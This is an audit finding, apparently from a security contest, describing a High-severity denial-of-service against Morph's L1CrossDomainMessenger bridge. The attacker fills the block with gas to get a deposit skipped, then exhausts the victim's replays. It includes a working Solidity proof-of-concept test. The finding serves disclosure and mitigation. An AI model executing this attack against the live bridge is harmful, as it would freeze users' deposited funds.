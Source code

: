 Shambolic Banana Barbel

High

# Any attacker can freeze depositing user funds for 24+ hours

### Summary

Because attackers can both cause deposits to be skipped and waste all replay attempts, any deposit can be costlessly and permissionlessly frozen until the L2 block is finalized, which will take at least 24 hours.

### Root Cause

In `L1CrossDomainMessenger.sol`, there is the ability to replay deposit transactions up to 3 (`maxReplayTimes`) times.

If, after 3 attempts, the transaction has not successfully landed in an L2 block, each of the three attempts will be marked as `skipped` in `Rollup.sol`. In this case, the `dropMessage()` function can be called to refund the deposited value to the original caller.

How is it determined if a transaction is skipped? If we examine the miner code in Morph's go-ethereum fork ([miner/pipeline.go#L276](https://github.com/morph-l2/go-ethereum/blob/e58ac01d16da31d9ca25a5e7e0e09bfdd352e76b/miner/pipeline.go#L276-L289)), we can see that if the gas limit is hit, the deposit transaction is marked as skipped. This allows an attacker to frontrun a deposit with other deposits that use the full block gas limit and ensure it is skipped.

Furthermore, the `replayMessage()` function can be permissionalessly called by anyone, not just the original depositor. This means that the attacker can backrun the transaction in the same block to use up all of the `maxReplayTimes` attempts, as all of these replays will be skipped since the block gas limit has been hit.

If this happens, the original user will have to call `dropMessage()` to get their funds back. However, this is not possible until the L2 block has been finalized, which will take at least 24 hours (more in the event of a challenged block).

Therefore, three facts are true:
1) An attacker can frontrun any deposit with other deposits that use the full block gas limit and ensure it is skipped.
2) An attacker can backrun this deposit to use up all the replay attempts.
3) The user will not be able to reclaim their frozen funds until the L2 block is finalized 24+ hours later.

### Internal pre-conditions

None

### External pre-conditions

None

### Attack Path

1. Attacker sees that a user is making a deposit via the L1CrossDomainMessenger.
2. Attacker frontruns the deposit transaction with 3 deposits that each use 10mm gas, which will fill the L2 block. Note that this can be done at no cost by replaying whitelisted transactions that have already succeeded (since the replay fee is based on the original depositor, not the replayer).
3. Attacker backruns the deposit transaction with 3 calls to `replayMessage()`, which use up all the replays.
4. The user's deposit fails, and they can't reclaim their funds for 24+ hours.

### Impact

Any user depositing funds via the bridge can be attacked at close to no cost to cause their deposited funds to be locked for at least 24 hours.

### PoC

The following test can be added to `L1CrossDomainMessenger.t.sol` to demonstrate the attack:
```solidity
function testPapa_freezeUserFunds() public {
    // a user with 2 ether wants to send 1 ether across the bridge
    address user = address(419);
    hevm.deal(user, 2 ether);

    // usually, he would make a call like the one below
    // messenger.sendMessage{value: 2 ether}(user, 1 ether, "", 100_000);

    // however, before he can, an attacker front runs and uses all the gas for the block
    // since txs are capped at 10mm gas, he'll pass 3
    uint attackerGas = l1MessageQueueWithGasPriceOracle.maxGasLimit();
    uint l2BaseFee = l1MessageQueueWithGasPriceOracle.l2BaseFee();

    // based on config, this will be less than 0.00004 ETH = 10 cents
    address attacker = address(420);
    hevm.deal(attacker, l2BaseFee * attackerGas * 4);

    // first, the attacker front runs the deposit to fill up the block with gas
    hevm.startPrank(attacker);
    for (uint i; i < 3; i++) {
        l1CrossDomainMessenger.sendMessage{value: l2BaseFee * attackerGas}(attacker, 0, "", attackerGas);
    }
    hevm.stopPrank();

    // the user's transaction then goes through (but will be skipped because the gas limit is hit)
    hevm.prank(user);
    uint32 userGas = 25_000;
    l1CrossDomainMessenger.sendMessage{value: 1 ether + l2BaseFee * userGas}(user, 1 ether, "", userGas);

    // the attacker then backruns the user and wastes all their replays
    hevm.startPrank(attacker);
    uint messageNonce = l1MessageQueueWithGasPriceOracle.nextCrossDomainMessageIndex() - 1;
    for (uint i; i < 3; i++) {
        l1CrossDomainMessenger.replayMessage{value: l2BaseFee * userGas}(user, user, 1 ether, messageNonce, "", userGas, attacker);
    }

    // now replays are no longer possible
    hevm.expectRevert("Exceed maximum replay times");
    l1CrossDomainMessenger.replayMessage{value: l2BaseFee * userGas}(user, user, 1 ether, messageNonce, "", userGas, attacker);

    // but the user is not able to drop their transaction until the block with the skipped transaction is finalized
    hevm.expectRevert("cannot drop pending message");
    l1CrossDomainMessenger.dropMessage(user, user, 1 ether, messageNonce, "");
}
```

### Mitigation

Only allow users to replay their own transactions.